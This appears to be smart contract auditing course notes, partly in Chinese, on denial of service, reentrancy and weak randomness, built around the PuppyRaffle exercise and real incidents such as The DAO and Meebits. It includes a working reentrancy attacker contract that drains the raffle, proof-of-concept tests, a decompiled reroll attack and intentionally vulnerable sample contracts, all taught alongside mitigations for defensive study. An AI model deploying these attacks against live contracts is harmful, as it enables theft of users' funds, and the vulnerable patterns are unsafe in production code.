            None
            </td>
            <td>
            None
            </td>
            <td>
            <a href="https://rekt.news/vulcan-forged-rekt/" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Vulcan Forged</a>
            <a href="https://rekt.news/mixin-rekt/" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Mixin</a>
            </td>
        </tr>
        <tr>
            <td>MEV</td>
            <td>
            <a href="https://remix.ethereum.org/#url=https://github.com/Cyfrin/sc-exploits-minimized/blob/main/src/MEV/Frontran.sol&lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.20+commit.a1b79de6.js" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Remix</a>
            </td>
            <td>
            None
            </td>
            <td>
            None
            </td>
            <td>
            <a href="https://blockworks.co/news/curve-suffers-exploit" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Vyper Attack</a>
            </td>
        </tr>
        <tr>
            <td>Invariant Break (Other exploits can cause this)</td>
            <td>
            Doesn't work great in remix
            </td>
            <td>
            N/A
            </td>
            <td>
            N/A
            </td>
            <td>
            <a href="https://www.coinbase.com/blog/euler-compromise-investigation-part-1-the-exploit" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Euler</a>
            </td>
        </tr>
    </tbody>
</table>


### Denial of Service

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;
​
contract DoS {
    address[] entrants;
​
    function enter() public {
        // Check for duplicate entrants
        for (uint256 i; i < entrants.length; i++) {
            if (entrants[i] == msg.sender) {
                revert("You've already entered!");
            }
        }
        entrants.push(msg.sender);
    }
}
```

The problem arises when the size of our `entrants` array grows. Every time someone is added to the `entrants` array, another loop is added to the duplicate check and as a result `more gas is consumed`.

We can see this in action by deploying our contract on Remix and comparing the gas consumed when we call this function subsequent times (remember, you'll need to switch your address being used).


This kind of behavior raises questions about fairness and ultimately is going to lead to a `denial of service` in that it will become impractical for anyone to interact with this function, because gas costs will be too high.


## DoS

### Case Study: DoS

We delve into two different kinds of **Denial of Service Attacks** or **DoS attacks** as they were uncovered from real security reviews. 

#### Case Study 1: Bridges Exchange

The first DoS vulnerability we'll touch on was found in the dividends distribution system of the Bridges exchange.

##### Attack Mechanics

The issue arises from an `unbounded for-loop` in the `distributeDividends` function, resulting in the risk of a DoS attack. An ill-intentioned party can cause the distribute dividends function to violate the block gas limit, effectively blocking all dividends by continually generating new addresses and minting minimal quantities of the Bridges pair token.

Let's look at the code.

```solidity
function distributeDividends(uint amount) public payable lock {

   require(amount == msg.value, "don't cheat");

   uint length = users.length;

   amount = amount.mul(magnitude);

   for (uint i; i < length; i++){

​      if(users[i] != address(0)){

​         UserInfo storage user = userInfo[users[i]];

​         user.rewards += (amount.mul(IERC20(address(this).balanceOf(users[i])).div(totalSupply.sub(MINIMUM_LIQUIDITY))));

​      }

   }

}
```

We can see the `unbounded for-loop` above. This is looping through an array, `users[]`, the length of which has no limits.

The practical effect of this is that, were the length of the `users[]` array long enough, the gas required to call this function would be prohibitively expensive. Potentially hitting block caps and being entirely uncallable.

##### Confirming the Attack Vector

In order to verify this is a vulnerability. We should investigate under what circumstances the `user[]` array can be added to.

By searching for the variable we see the array is appended to in the mint function:

```solidity
function mint(address to) external lock returns (uint liquidity){

   ...

   if(IERC20(address(this).balanceOf(to) == 0)){

​      users.push(to);

   }

}
```

In theory, an attacker could generate new wallet addresses (or transfer the minted tokens) to call this function repeatedly, bloating the array and DOSing the function.

The resolution for the Bridges Exchange was to refactor things such that the `for-loop` wasn't needed.

#### Case Study 2: Dos Attack in GMX V2

The second instance of a DoS attack shows up in the GMX V2 system and is entirely different than the Bridges Exchange case mentioned above.

##### Attack Mechanics

The problem arises from a boolean indicator called `shouldUnwrapNativeToken`. This flag can be leveraged to set up positions that can't be reduced by liquidations or ADL (Auto-Deleveraging) orders. When the native token unwraps (with the flag set to true), a position can be formed by a contract that can't receive the native token. This leads to order execution reverting, causing a crucial function of the protocol to become unexecutable.

##### Into the Code

Let's investigate what this looks like in code.

Within the GMX V2 `DecreaseOrderUtils` library we have the `processOrder` function. While processing an order with this library we eventually will call `transferNativeToken` within `TokenUtils.sol`.

```solidity
function transferNativeToken(DataStore dataStore, address receiver, uint256 amount) internal {

   if (amount == 0) {return;}


   uint256 gasLimit = dataStore.getUint(keys.NATIVE_TOKEN_TRANSFER_GAS_LIMIT);


   (bool success, bytes memory data) = payable(receiver).call{value: amount, gas: gasLimit} ("");


   if (success){return;}


   string memory reason = string(abi.encode(data));

   emit NativeTokenTransferReverted(reason);


   revert NativeTokenTransferError(receiver, amount);

}
```


Ultimately, this is where the problem lies. When a position in the protocol is liquidated, or de-leveraged, and the `shouldUnwrapNativeToken` flag is true, this function is called in the process.

Were the `receiver` address a contract which was unable to receive value - the liquidation of the user would revert every time.

This is a critical flaw!

You may notice another potential vulnerability in the same function - the `gasLimit`. Were the receiver a contract address which expended unnecessary gas in it's receive function - this call would also revert!

#### Wrap Up


To summarize, here are a couple things to keep an eye out for which may lead to DoS attacks:

1. **For-Loops**: Take extra caution with for-loops. Ask yourself these questions:
   - Is the iterable entity bounded by size?
   - Can a user append arbitrary items to the list?
   - How much does it cost the user to do so?
2. **External calls**: These can be anything from transferring Eth to calling a third-party contract. Evaluate ways these external calls could fail, leading to an incomplete transaction.


DoS attacks put simply are - the denial of functions of a protocol. They can arise from multiple sources, but the end result is always a transaction failing to execute.

Be vigilant for the above situations in your security reviews.


### DoS PoC Puppy Raffle

```solidity
    /// @notice this is how players enter the raffle
    /// @notice they have to pay the entrance fee * the number of players
    /// @notice duplicate entrants are not allowed
    /// @param newPlayers the list of players to enter the raffle
    /// @audit Dos
    function enterRaffle(address[] memory newPlayers) public payable {
        require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
        for (uint256 i = 0; i < newPlayers.length; i++) {
            players.push(newPlayers[i]);
        }

        // Check for duplicates
        for (uint256 i = 0; i < players.length - 1; i++) {
            for (uint256 j = i + 1; j < players.length; j++) {
                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
            }
        }
        emit RaffleEnter(newPlayers);
    }
```

#### Proof of Code

If the protocol has an existing test suite, it's often easier to add our tests to it than write things from scratch.

his is a great boilerplate for what we're trying to show.

```solidity
function testDenialOfService() public {
    // Foundry lets us set a gas price
    vm.txGasPrice(1);

    // Creates 100 addresses
    uint256 playersNum = 100;
    address[] memory players = new address[](playersNum);
    for(uint i = 0; i < players.length; i++){
        players[i] = address(i);
    }

    // Gas calculations for first 100 players
    uint256 gasStart = gasleft();
    puppyRaffle.enterRaffle{value: entranceFee * players.length}(players);
    uint256 gasEnd = gasleft();
    uint256 gasUsedFirst = (gasStart - gasEnd) * tx.gasprice;
    console.log("Gas cost of the first 100 players: ", gasUsedFirst);

    // Creates another array of 100 players
    address[] memory playersTwo = new address[](playersNum);
    for (uint256 i = 0; i < playersTwo.length; i++) {
        playersTwo[i] = address(i + playersNum);
    }

    // Gas calculations for second 100 players
    uint256 gasStartTwo = gasleft();
    puppyRaffle.enterRaffle{value: entranceFee * players.length}(playersTwo);
    uint256 gasEndTwo = gasleft();
    uint256 gasUsedSecond = (gasStartTwo - gasEndTwo) * tx.gasprice;
    console.log("Gas cost of the second 100 players: ", gasUsedSecond);

    assert(gasUsedFirst < gasUsedSecond);
}

```

Running the command `forge test --mt testDenialOfService -vvv` should give us an output like this:


That's all there is to it. We've clearly shown a potential `Denial of Service` through our `Proof of Code`. This test function is going to go right into our report

### DoS: Reporting

~~~markdown
### [M-#] Looping through `players` to check for duplicates in `PuppyRaffle::enterRaffle` enables a Denial of Service (DoS) pattern by escalating gas for later entrants

**Description**  
The `enterRaffle` function uses a nested loop to detect duplicate participant addresses. As the `players` array grows, each new call scales roughly with O(n²) comparisons (cumulative effect), making later participation disproportionately expensive. This creates unfair cost dynamics and can be exploited to deter additional entrants.

```solidity
// @audit DoS pattern (quadratic duplicate scan)
for (uint256 i = 0; i < players.length - 1; i++) {
    for (uint256 j = i + 1; j < players.length; j++) {
        require(players[i] != players[j], "PuppyRaffle: Duplicate Player");
    }
}
```

**Impact**  
- Gas costs for late entrants become significantly higher, discouraging normal user participation.  
- Creates a rush incentive for early entry.  
- An attacker (or coordinated users) can bloat the array early to make further entries uneconomic, effectively griefing or monopolizing the raffle.

**Proof of Concept (Gas Comparison)**  
Two batches of 100 players produce approximate gas usage:  
- First 100 players: ~6,252,048 gas  
- Second 100 players: ~18,068,138 gas  
The second batch costs over 3× the first due to quadratic growth.

<details>
<summary><strong>Proof of Code (click to expand)</strong></summary>

```solidity
function testDenialOfService() public {
    // Foundry lets us set a gas price
    vm.txGasPrice(1);

    // First 100 addresses
    uint256 playersNum = 100;
    address[] memory players = new address[](playersNum);
    for (uint256 i = 0; i < players.length; i++) {
        players[i] = address(i);
    }

    // Gas for first 100
    uint256 gasStart = gasleft();
    puppyRaffle.enterRaffle{value: entranceFee * players.length}(players);
    uint256 gasEnd = gasleft();
    uint256 gasUsedFirst = (gasStart - gasEnd) * tx.gasprice;
    console.log("Gas cost of the first 100 players: ", gasUsedFirst);

    // Second 100 addresses
    address[] memory playersTwo = new address[](playersNum);
    for (uint256 i = 0; i < playersTwo.length; i++) {
        playersTwo[i] = address(i + playersNum);
    }

    // Gas for second 100
    uint256 gasStartTwo = gasleft();
    puppyRaffle.enterRaffle{value: entranceFee * players.length}(playersTwo);
    uint256 gasEndTwo = gasleft();
    uint256 gasUsedSecond = (gasStartTwo - gasEndTwo) * tx.gasprice;
    console.log("Gas cost of the second 100 players: ", gasUsedSecond);

    assert(gasUsedSecond > gasUsedFirst);
}
```
</details>

---

**Recommended Mitigation (diff)**  
Replace the quadratic duplicate scan with a constant‑time membership check using a mapping keyed by address and scoped by a per‑raffle `raffleId`. Verify new entries before mutating state to avoid always reverting. Also, clear (or logically invalidate) participation when starting the next raffle by incrementing `raffleId`.

```diff
+    mapping(address => uint256) public addressToRaffleId;
+    uint256 public raffleId = 0;
    
    
    
    function enterRaffle(address[] memory newPlayers) public payable {
        require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
        for (uint256 i = 0; i < newPlayers.length; i++) {
            players.push(newPlayers[i]);
+            addressToRaffleId[newPlayers[i]] = raffleId;
        }
​
-        // Check for duplicates
+       // Check for duplicates only from the new players
+       for (uint256 i = 0; i < newPlayers.length; i++) {
+          require(addressToRaffleId[newPlayers[i]] != raffleId, "PuppyRaffle: Duplicate player");
+       }
-        for (uint256 i = 0; i < players.length; i++) {
-            for (uint256 j = i + 1; j < players.length; j++) {
-                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
-            }
-        }
        emit RaffleEnter(newPlayers);
    }
.
.
.
    function selectWinner() external {
+       raffleId = raffleId + 1;
        require(block.timestamp >= raffleStartTime + raffleDuration, "PuppyRaffle: Raffle not over");
```


~~~

## Exploit: Business Logic Edge Case

By now we've identified fairly clearly how the `enterRaffle` function works. Our finding looks great. Let's next move onto the `refund` function, this one was mentioned explicitly in our documentation.

```
Users are allowed to get a refund of their ticket & value if they call the refund function
```

This is what the function looks like.

```
/// @param playerIndex the index of the player to refund. You can find it externally by calling `getActivePlayerIndex`

/// @dev This function will allow there to be blank spots in the array

function refund(uint256 playerIndex) public {

​    address playerAddress = players[playerIndex];

​    require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");

​    require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");


​    payable(msg.sender).sendValue(entranceFee);


​    players[playerIndex] = address(0);

​    emit RaffleRefunded(playerAddress);

}
```

Remember to start with the documentation so that we understand what's supposed to happen. In order to call this function a player needs to provide their `playerIndex`, and this is acquired through the `getActivePlayerIndex` function.

Let's jump over there quickly.

```
/// @notice a way to get the index in the array

/// @param player the address of a player in the raffle

/// @return the index of the player in the array, if they are not active, it returns 0

function getActivePlayerIndex(address player) external view returns (uint256) {

​    for (uint256 i = 0; i < players.length; i++) {

​        if (players[i] == player) {

​            return i;

​        }

​    }

​    return 0;

}
```

When looking at this function, we have to ask *"Why is this returning zero?"*

Arrays begin at index 0, were the player at this index to call this function it would be very unclear whether or not they were in the raffle or not!

## Exploit: Reentrancy


## Reentrancy: Mitigation

### CEI Pattern

*What's a CEI pattern?*

I'm glad you asked!

CEI stands for Checks, Effects and Interactions and is a best practice for orders of operation.

1. Checks - require statements, conditions
2. Effects - this is where you update the state of the contract
3. Interactions - any interaction with external contracts/addresses come last

```solidity
function withdrawBalance() public {
    // Checks
    //Effects
    uint256 balance = userBalance[msg.sender];
    userBalance[msg.sender] = 0;
    //Interactions
    (bool success,) = msg.sender.call{value: balance}("");
    if (!success) {
        revert();
    }
}
```

Our function has no checks, but simply by reordering things this way, with our effects before interactions, we're guarded against re-entrancy. We can confirm this in [**Remix**](https://remix.ethereum.org/#url=https://github.com/Cyfrin/sc-exploits-minimized/blob/main/src/reentrancy/Reentrancy.sol&lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.20+commit.a1b79de6.js).


### Alternative Mitigation-locking mechanism

There is another popular way we can protect from re-entrancy and that's through a locking mechanism we could apply to this function.

```solidity
bool locked = false;
function withdrawBalance() public {
    if(locked){
        revert;
    }
    locked = true;

    // Checks
    // Effects
    uint256 balance = userBalance[msg.sender];
    userBalance[msg.sender] = 0;
    // Interactions
    (bool success,) = msg.sender.call{value: balance}("");
    if (!success) {
        revert();
    }
    locked = false;
}
```

This is called a `mutex lock` in computing science. By applying the above logic, we lock the function once it's called so that it can't be re-entered while locked!

Along this line we also have the [**OpenZeppelin ReentrancyGuard**](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/ReentrancyGuard.sol) library available to us. This effectively applies locks to our functions under the hood keeping our code clean and professional by leveraging the `nonReentrant` modifier.

That's it! We've learnt 3 simple ways to protect against re-entrancy vulnerabilities in our code.

1. Following CEI - Checks, Effects, Interactions Patterns
2. Implementing a locking mechanism to our function
3. Leveraging existing libraries from trust sources like [**OpenZeppelin's ReentrancyGuard**](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/ReentrancyGuard.sol)

### Case Study: The DAO

[**The DAO**](https://en.wikipedia.org/wiki/The_DAO) was one of the most famous (or infamous) protocols in Web3 history. As of May 2016, its total value locked was ~14% of all ETH.

Unfortunately, it suffered from a re-entrancy vulnerability in two of its functions.

The first problem existed in the `splitDao` function, here's the vulnerable section and the whole contract for reference:

```solidity
contract DAO is DAOInterface, Token, TokenCreation {
    ...
    function splitDAO(
        uint _proposalID,
        address _newCurator
    ) noEther onlyTokenholders returns (bool _success) {
​
    Transfer(msg.sender, 0, balances[msg.sender]);
    withdrawRewardFor(msg.sender); // be nice, and get his rewards
    totalSupply -= balances[msg.sender];
    balances[msg.sender] = 0;
    paidOut[msg.sender] = 0;
    return true;
    }
}
```


## Reentrancy: PoC

Returning to PuppyRaffle, let's look at how all we've learnt affects this protocol.

A look again at this `refund` function and we see a classic case of reentrancy with an external call being made before updating state.

```solidity
function refund(uint256 playerIndex) public {
    address playerAddress = players[playerIndex];
    require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
    require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

    // @Audit: Reentrancy
    payable(msg.sender).sendValue(entranceFee);

    players[playerIndex] = address(0);
    emit RaffleRefunded(playerAddress);
}
```

> **Note:** There *is* a `playersEntered` modifier we could use, included in this test suite, but we'll choose to be explicit here.

Next we'll create our `ReentrancyAttacker` Contract.

```solidity
contract ReentrancyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() public payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }
    function _stealMoney() internal {
    if (address(puppyRaffle).balance >= entranceFee) {
        puppyRaffle.refund(attackerIndex);}
    }
    
    fallback() external payable {
        _stealMoney();
    }

    receive() external payable {
        _stealMoney();
    }
}
```

Once deployed, this `attack` function is going to kick off the attack. In order, we're entering the raffle, acquiring our `playerIndex`, and then refunding our `entranceFee`.

Adding these functions to our `ReentrancyAttacker` contract finishes the job. When funds are sent back to our contract, the `fallback` or `receive` functions are called which is going to trigger another `refund` call in our `_stealMoney` function, completing the loop until the `PuppyRaffle` contract is drained!

```solidity
function test_reentrancyRefund() public {
    // users entering raffle
    address[] memory players = new address[](4);
    players[0] = playerOne;
    players[1] = playerTwo;
    players[2] = playerThree;
    players[3] = playerFour;
    puppyRaffle.enterRaffle{value: entranceFee * 4}(players);
​
    // create attack contract and user
    ReentrancyAttacker attackerContract = new ReentrancyAttacker(puppyRaffle);
    address attacker = makeAddr("attacker");
    vm.deal(attacker, 1 ether);
​
    // noting starting balances
    uint256 startingAttackContractBalance = address(attackerContract).balance;
    uint256 startingPuppyRaffleBalance = address(puppyRaffle).balance;
​
    // attack
    vm.prank(attacker);
    attackerContract.attack{value: entranceFee}();
​
    // impact
    console.log("attackerContract balance: ", startingAttackContractBalance);
    console.log("puppyRaffle balance: ", startingPuppyRaffleBalance);
    console.log("ending attackerContract balance: ", address(attackerContract).balance);
    console.log("ending puppyRaffle balance: ", address(puppyRaffle).balance);
}
```

All we need to do now is run this test with the command `forge test --mt test_reentrancyRefund -vvv` and we should receive...


We did it! We've proven the vulnerability through our application of our PoC and we'll absolutely be submitting this as a finding - likely a `High`.

## Recon: Continued

Let's continue with our manual review of PuppyRaffle. So far we've gone through

- enterRaffle - where we uncovered a DoS vulnerability
- refund - we discovered is vulnerable to reentrancy
- getActivePlayerIndex - we found an edge case where players at index 0 aren't sure if they've entered the raffle!

Walking through the code, we're moving onto the `selectWinner` function. This is a big one, we'll have a lot to go over.

I encourage you to write these thoughts down in your `notes.md` file and actually write in-line notes to keep them organized. Being able to reference these thoughts during our write ups and later in the review is incredibly valuable to the process.

```
// @Audit: Does this follow CEI?

// @Audit: Are the duration and time being set correctly?

// @Audit: What is _safeMint doing after our external call?
```

It's important to note the `selectWinner` function is external, so anyone can call it. The checks in this function will be really important, but they do look good.

Moving on, the next this thing function is doing is defining a `winnerIndex`.

```
uint256 winnerIndex = uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp, block.difficulty))) % players.length;

address winner = players[winnerIndex];
```

It seems our function is using a pseudo-random number, modded by the player's array to choose our winning index. It then assigns the player at that index in the array to our `winner` variable.

This winner variable is used further in the function to distribute the `prizePool` as well as mint the winning NFT.

```
(bool success,) = winner.call{value: prizePool}("");

require(success, "PuppyRaffle: Failed to send prize pool to winner");

_safeMint(winner, tokenId);
```

It's important that this selection is fair and truly random or this could be exploited by malicious actors fairly easily. My alarm bells are going off and I'm seeing a lot of red flags.

## Exploit: Weak Randomness（ PRNG or Pseudo Random Number Generation.）

et's actually take a moment to go back to `Slither` because, if you can believe it, `Slither` will actually catch this for us.

```
slither .
```

Running slither as above we can see it's output contains the following:


So what is this detector telling us - that `PuppyRaffle.sol` is using weak PRNG or Pseudo Random Number Generation. We can navigate to the [**link provided**](https://github.com/crytic/slither/wiki/Detector-Documentation#weak-PRNG) for more information and a simplified example of this vulnerability.


Beyond what's outlined here as a concern - that miners can influence global variables favorable - there's a lot more *weirdness* that goes into random numbers on-chain.

If you've seen any of my other content, you know that Chainlink VRF is a solution for this problem, and I encourage you to check out the [**documentation**](https://docs.chain.link/vrf) for some additional learnings.

### 什么是 blockhash？

`blockhash` 是区块的哈希值，是通过对整个区块的内容（包括交易、时间戳、前一个区块哈希等）进行哈希运算得到的唯一标识符。

```solidity
// blockhash 的基本用法
bytes32 currentBlockHash = blockhash(block.number - 1); // 获取前一个区块的哈希
bytes32 specificBlockHash = blockhash(10000); // 获取第10000个区块的哈希
```

### 矿工如何操纵这些数据源？

#### 1. block.timestamp（区块时间戳）

**操纵方式**：
- 矿工可以在一定范围内（通常15秒内）调整区块时间戳
- 只要时间戳不早于父区块且不超过当前时间太多，网络就会接受

**示例代码**：
```solidity
contract TimestampVulnerable {
    uint256 public lastWinner;
    
    function lottery() public {
        // 危险：使用时间戳作为随机数
        uint256 random = block.timestamp % 100;
        if (random < 10) {
            lastWinner = uint256(uint160(msg.sender));
            // 发放奖励
        }
    }
}
```

**攻击场景**：
```solidity
// 矿工可以这样攻击：
// 1. 计算不同时间戳下的结果
// 2. 选择对自己有利的时间戳
// 3. 在该时间戳下挖出区块
```

#### 2. now（当前时间，已废弃）

**操纵方式**：
- `now` 实际上就是 `block.timestamp` 的别名
- 操纵方式与 `block.timestamp` 完全相同

**示例代码**：
```solidity
contract NowVulnerable {
    mapping(address => uint256) public balances;
    
    function timeBasedReward() public {
        // 危险：now 等同于 block.timestamp
        if (now % 60 < 10) { // 每分钟前10秒可以获得奖励
            balances[msg.sender] += 100;
        }
    }
}
```

#### 3. blockhash（区块哈希）

**操纵方式**：
- 矿工可以通过改变区块内容来影响区块哈希
- 包括：调整交易顺序、包含不同的交易、修改时间戳等
- 矿工可以重复尝试直到得到有利的哈希值

**示例代码**：
```solidity
contract BlockhashVulnerable {
    uint256 public prize = 1 ether;
    address public winner;
    
    function guessNumber(uint256 guess) public {
        // 危险：使用区块哈希作为随机数
        uint256 random = uint256(blockhash(block.number - 1)) % 10;
        
        if (guess == random) {
            winner = msg.sender;
            payable(msg.sender).transfer(prize);
        }
    }
}
```

#### 防护措施对比

| 方法          | 安全性 | 成本 | 复杂度 |
| ------------- | ------ | ---- | ------ |
| Chainlink VRF | 高     | 中等 | 低     |
| 提交-揭示     | 中等   | 低   | 中等   |
| 多方随机数    | 中等   | 低   | 高     |
| 区块哈希      | **低** | 低   | 低     |

**总结：**矿工通过控制区块内容（时间戳、交易顺序、包含的交易等）来影响这些"随机"值，从而操纵游戏结果。这就是为什么需要使用真正的随机数服务。

### Remix Examples

Return to our [**sc-exploits-minimized**](https://github.com/Cyfrin/sc-exploits-minimized) repo and we've included a link to a [**Remix example**](https://remix.ethereum.org/#url=https://github.com/Cyfrin/sc-exploits-minimized/blob/main/src/weak-randomness/WeakRandomness.sol&lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.20+commit.a1b79de6.js) of this vulnerability.

> This contract is available for local testing as well [**here**](https://github.com/Cyfrin/sc-exploits-minimized/blob/main/src/weak-randomness/WeakRandomness.sol).

Looking at the `Remix` example, we can see it's doing something very similar to what `PuppyRaffle` is doing

```
uint256 randomNumber = uint256(keccak256(abi.encodePacked(msg.sender, block.prevrandao, block.timestamp)));
```

In this declaration we're taking 3 variables:

- msg.sender

- block.prevrandao

- block.timestamp

- **RANDAO** = **RAN**dom **D**ecentralized **A**utonomous **O**rganization

  它是一个去中心化的随机数生成机制，在以太坊 2.0 的权益证明（PoS）共识中使用。

| 随机源             | 历史可预测性 | 未来可预测性 | 操纵难度 |
| ------------------ | ------------ | ------------ | -------- |
| `block.timestamp`  | 100%         | 高           | 容易     |
| `blockhash`        | 100%         | 高           | 中等     |
| `block.prevrandao` | 100%         | **中等到高** | 中等     |
| Chainlink VRF      | 0%           | 低           | 极难     |

We're hashing these variables and casting the result as a uint256. The problem exists in that the 3 variables we're deriving our number from are able to be influenced or anticipated such that we can predict what the random number will be.

The test set up in [**sc-exploits-minimized**](https://github.com/Cyfrin/sc-exploits-minimized) may look a little silly, but what's trying to be conveyed is that generating the same random number in a single block is another example of how this vulnerability can be exploited.

```solidity
// For this test, a user could just deploy a contract that guesses the random number...

// by calling the random number in the same block!!

function test_guessRandomNumber() public {

​    uint256 randomNumber = weakRandomness.getRandomNumber();


​    assertEq(randomNumber, weakRandomness.getRandomNumber());

}
```

#### Wrap Up

In short - the blockchain is deterministic. Using on-chain variables and pseudo random number generation leaves a protocol open to exploits whereby an attacker can predict or manipulate the 'random' value.

There multiple ways that weak randomness can be exploited.

## Weak Randomness: Multiple Issues

Let's look at a few ways that randomness, as we've seen in `PuppyRaffle` and our [**sc-exploits-minimized**](https://github.com/Cyfrin/sc-exploits-minimized) examples, can be manipulated.



### block.timestamp

Relying on block.timestamp is risky for a few reasons as node validators/miners have privileges that may give them unfair advantages.

The validator selected for a transaction has the power to:

- Hold or delay the transaction until a more favorable time
- Reject the transaction because the timestamp isn't favorable

Timestamp manipulation has become less of an issue on Ethereum, since the merge, but it isn't perfect. Other chains, such as Arbitrum can be vulnerable to several seconds of slippage putting randomness based on `block.timestamp` at risk.

### block.prevrandao

`block.prevrandao` was introduced to replace `block.difficulty` when the merge happened. This is a system to choose random validators.

The security issues using this value for randomness are well enough known that many of them are outlined in the [**EIP-4399**](https://eips.ethereum.org/EIPS/eip-4399) documentation already.

The security considerations outlined here include:

**Biasability:** The beacon chain RANDAO implementation gives every block proposer 1 bit of influence power per slot. Proposer may deliberately refuse to propose a block on the opportunity cost of proposer and transaction fees to prevent beacon chain randomness (a RANDAO mix) from being updated in a particular slot.

**Predictability:** Obviously, historical randomness provided by any decentralized oracle is 100% predictable. On the contrary, the randomness that is revealed in the future is predictable up to a limited extent.

### msg.sender

Any field controlled by a caller can be manipulated. If randomness is generated from this field, it gives the caller control over the outcome.

By using msg.sender we allow the caller the ability to mine for addresses until a favorable one is found, breaking the randomness of the system

## Case Study: Weak Randomness

### Intro to Meebits and Andy Li

Let's look into a case study that involves the exploit of an NFT project, Meebits, which occurred in 2021. This analysis will shed light on a real-world example of how weak randomness was exploited, resulting in a substantial loss of nearly a million dollars for the protocol.

We extend our appreciation to [**Andy Li**](https://twitter.com/andyfeili) from [**Sigma Prime**](https://sigmaprime.io/) who walks us through the details of this attack.

*Information in this post is graciously provided by Andy*

Remember, periodically conducting post mortems like this greatly contributes towards honing your skills as a security researcher. Familiarity begets mitigation.

### Case Study: Meebits - Insecure Randomness

Meebits, created by Larva Labs (team behind CryptoPunks), was exploited in May 2021 due to insecure randomness in its smart contracts. By rerolling their randomness, an attacker was able to obtain a rare NFT which they sold for $700k.

The concept behind Meebits was simple. If you owned a CryptoPunk, you could mint a free Meebit NFT. The attributes of this newly minted NFT were supposed to be random, with some traits being more valuable than others. However, owing to exploitable randomness, the attacker could reroll their mint until they obtained an NFT with desirable traits.

### How the Attack Happened

There were 4 distinct things that occurred.

**Metadata Disclosure:** The Meebit contract contained an IPFS hash which pointed to metadata for the collection. Within the Metadata there existed a string of text that clearly disclosed which traits would be the most rare

```
"...While just five of the 20,000 Meebits are of the dissected form, which is the rarest. The kinds include dissected, visitor, skeleton, robot, elephant, pig and human, listed in decreasing order of rarity."
```

In addition to this, the `tokenURI` function allowed public access to the traits of your minted Meebit, by passing the function your tokenId.

**Insecure Randomness:** Meebits calculated a random index based on this line of code:

```
uint index = uint(keccak256(abi.encodePacked(nonce, msg.sender, block.difficulty, block.timestamp))) % totalSize;
```

This method to generate an index is used within Meebit's `randomIndex` function when minting an NFT.

```
function _mint(address _to, uint createdVia) internal returns (uint) {

​        require(_to != address(0), "Cannot mint to 0x0.");

​        require(numTokens < TOKEN_LIMIT, "Token limit reached.");

​        uint id = randomIndex();


​        numTokens = numTokens + 1;

​        _addNFToken(_to, id);


​        emit Mint(id, _to, createdVia);

​        emit Transfer(address(0), _to, id);

​        return id;

​    }
```

**Attacker Rerolls Mint Repeatedly:** The attacker in this case deployed a contract which did two things.

1. Calls `mint` to mint an NFT
2. Checks the 'random' Id generated and reverts the `mint` call if it isn't desirable.

The attack contract wasn't verified, but if we decompile its bytecode we can see the attack function.

```
function 0x1f2a8a19(uint256 varg0) public nonPayable {

​    require(msg.data.length -4 >= 32);

​    require(bool(stor_2_0_19.code.size));

​    v0, /*uint256*/ v1 = stor_2_0_19.mintWithPunkOrGlyph(varg0).gas(msg.gas);

​    require(bool(v0), 0, RETURNDATASIZE());

​    require(RETURNDATASIZE() >= 32);

​    assert(bool(uint8(map_1[v1]))==bool(1));

​    v2 = address(block.coinbase).call().value(0xde0b6b3a7640000);

​    require(bool(v2), 0, RETURNDATASIZE());

}
```

The above my be a little complex, but these are the important lines to note:

```
v0, /*uint256*/ (v1 = stor_2_0_19.mintWithPunkOrGlyph(varg0).gas(msg.gas));
```

and

```
assert(bool(uint8(map_1[v1])) == bool(1));
```

The first line is where the mint function is being called by the attacking contract.

The second line is where an assertion is made that the minted NFT has the desired rare traits. If this assertion fails, the whole transaction is reverted.

**Attacker Receives Rare NFT:**

The attacking contract repeatedly called the mint function and kept reverting for over six hours, spending about $20,000 per hour in gas until it finally minted the rare NFT it was targeting: Meebit #16647. That NFT had the “Visitor” trait and later sold for $700,000.


## Weak Randomness: Mitigation

In short, relying on on-chain data to generate random numbers is problematic due to the deterministic nature of the blockchain. The easiest way to mitigate this is to generate random numbers off-chain.

Some off-chain solutions include:

